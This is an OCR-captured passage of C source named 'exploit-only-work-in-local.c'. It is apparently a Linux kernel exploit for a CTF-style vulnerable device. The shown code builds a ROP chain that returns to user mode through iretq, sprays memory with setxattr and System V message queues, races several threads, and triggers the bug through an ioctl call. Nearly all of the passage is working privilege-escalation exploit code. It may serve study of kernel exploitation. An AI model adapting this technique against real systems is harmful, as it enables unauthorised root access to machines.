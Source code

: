 ```exploit-only-work-in-local.c
      *chain++ = &NIRUGIRI;
      *chain++ = user_cs; //XXX
      *chain++ = user_rflags;
      *chain++ = user_sp;
      *chain++ = user_ss;

      //*chain++ = 0xAAAAAAAAAAAAA;
      //*chain++ = 0xBBBBBBBBBBBBB;
      //*chain++ = 0xEEEEEEEEEEEEEEEE;
      //*chain++ = 0xAAAAAAAAAAAAA;
      //*chain++ = 0xBBBBBBBBBBBBB;
      //*chain++ = 0xCCCCCCCCCCCCC;
      //*chain++ = 0xDDDDDDDDDDDDD;

      //*chain++ = kernbase + 0x0AD147; // 0xffffffff81026a7b: 48 cf iretq
      //*chain++ = &NIRUGIRI;
      //*chain++ = user_cs; //XXX
      //*chain++ = user_rflags;
      //*chain++ = user_sp;
      ////*chain++ = user_ss;

      //*chain++ = 0xEEEEEEEEEEEEEEEE;
      //*chain++ = 0xAAAAAAAAAAAAA;
      //*chain++ = 0xBBBBBBBBBBBBB;
      //*chain++ = 0xCCCCCCCCCCCCC;
      //*chain++ = 0xDDDDDDDDDDDDD;

      setxattr("/tmp/exploit", "NIRUGIRI", rbuf, second_size, XATTR_CREATE);
      ioctl(tmpfd, 0, 0x13371337);

      assert(tmpfd > 0);
      return; // unreacableであってほしい
    }
    close(tmpfd);
    if(writer_counter % 0x1000 == 0){
      printf("[-] writer: 0x%lx, 0x%lx\n", writer_counter, ((ulong*)rbuf)[0]);
    }
    ++writer_counter;
  }
  puts("[+] writer returning...");
  return 0;
}

struct _msgbuf{
  long mtype;
  char mtext[0x30];
};
struct _msgbuf2e0{
  long mtype;
  char mtext[0x2e0];
};

int main(int argc, char *argv[]) {
  pthread_t creater_thr, deleter_thr, shower_thr, appender_thr, cad_thr, cder_thr, writer_thr;
  char rbuf[0x400];
  printf("[+] NIRUGIRI @ %p\n", &NIRUGIRI);
  memset(rbuf, 0, 0x200);
  memset(buf, 'A', 0x200);
  nutfd = open(DEV_PATH, O_RDWR);
  assert(nutfd > 0);
  int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if(qid == -1) errExit("msgget");
  struct _msgbuf msgbuf = {.mtype = 1};
```